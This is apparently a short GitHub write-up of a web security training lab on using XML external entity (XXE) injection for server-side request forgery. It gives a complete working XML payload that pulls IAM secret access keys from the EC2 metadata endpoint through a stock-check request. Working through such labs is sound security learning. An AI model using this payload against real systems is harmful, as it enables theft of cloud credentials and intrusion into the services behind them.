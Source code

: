 Title: Exploiting XXE to perform SSRF attacks
Desc:  This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

example: ```<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>```

Basically the payload was the same as in the first lab, but I needed to craft proper endpoint to gain secret keys for admin in EC2:
```http://169.254.169.254/latest/meta-data/iam/security-credentials/admin```

Complete payload was: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>&xxe;</storeId></stockCheck>```

![image](https://github.com/user-attachments/assets/2c3e4c5b-7f62-4e9e-821e-402c80c69f0d)
